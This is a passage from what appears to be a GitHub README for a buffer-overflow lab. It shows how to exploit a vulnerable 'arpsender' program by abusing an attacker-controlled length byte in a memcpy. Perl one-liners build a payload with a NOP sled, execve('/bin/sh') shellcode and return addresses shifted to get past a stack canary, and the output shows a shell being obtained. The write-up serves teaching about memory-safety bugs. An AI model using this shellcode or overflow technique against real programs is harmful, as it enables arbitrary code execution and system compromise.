 ___
Let us recall some crusial code to determine the form of the input:
```
  hwaddr.len = (shsize_t) *(packet + ADDR_LENGTH_OFFSET);
  memcpy(hwaddr.addr, packet + ADDR_OFFSET, hwaddr.len);
  memcpy(hwaddr.hwtype, packet, 4);
```
* The number of bytes to be copied to `hwaddr.addr` from the `packet` is determined by the `hwaddr.len` variable. This variable is read from `*(packet + ADD_LENGTH_OFFSET) -> *(packet + 4)` so the 5th byte of the input `packet`.
So in the 5th byte of the input `packet`, the number `135` should be placed, or in HEX `\x87`.
* The bytes to be copied to `hwaddr.addr` from the packet are read from `packet + ADDR_OFFSET -> packet + 8` so we need to place our shell code from that place and after.

###### Sketch attack plan
<img src="https://github.com/igavriil/buffer-overflow/blob/master/arpsender_attack.png" width="650" height="200"/>
###### Create your inputs according to the sketch and run the programm
```
perl -e 'print "\x69\xf4\xff\xbf\x87" ."\x90\x90\x90" . "\x90" x86 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"."\xfc\xf4\xff\xbf"' >packet.txt
```

```
$ ./arpsender packet.txt
...
*** stack smashing detected ***: ./arpsender terminated
...
```
Something has changed in the memory layout but we know that we are writing the canary value. Let's try to increment the addresses `16 bytes = 10(hex)` to pass the cannary and hopefully reach the `$eip`:
```
0xbffff4fc -> 0xbffff50c
0xbffff469 -> 0xbffff479
```
Rewrite the `packet.txt` with the shifted addresses
```
perl -e 'print "\x79\xf4\xff\xbf\x87" ."\x90\x90\x90" . "\x90" x86 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"."\x0c\xf5\xff\xbf"' >packet.txt
```

```
$ ./arpsender packet.txt
$ (unlocked shell)
```
___
#### [zoo](https://github.com/igavriil/buffer-overflow/blob/master/zoo.cpp) C++program
###### Determine protections enabled
